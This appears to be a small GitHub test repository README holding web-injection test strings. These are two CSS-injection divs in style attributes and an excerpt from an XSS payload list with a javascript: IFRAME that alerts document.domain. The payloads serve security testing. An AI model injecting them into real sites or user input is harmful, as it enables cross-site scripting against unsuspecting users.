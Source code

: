 # xss-test
xss



<div style="font-family:'foo&#10;;color:red;';">XXX

<div style="font-family:foo}color=red;">HOLA


```
<!-- Project Name  : Cross Site Scripting ( XSS ) Vulnerability Payload List -->
<!--        Author : Ismail Tasdelen -->
<!--      Linkedin : https://www.linkedin.com/in/ismailtasdelen/ -->
<!--        GitHub : https://github.com/ismailtasdelen/ -->
<!--       Twitter : https://twitter.com/ismailtsdln -->
<!--        Medium : https://medium.com/@ismailtasdelen -->

<IFRAME SRC="javascript:javascript:alert(document.domain);"></IFRAME>


```
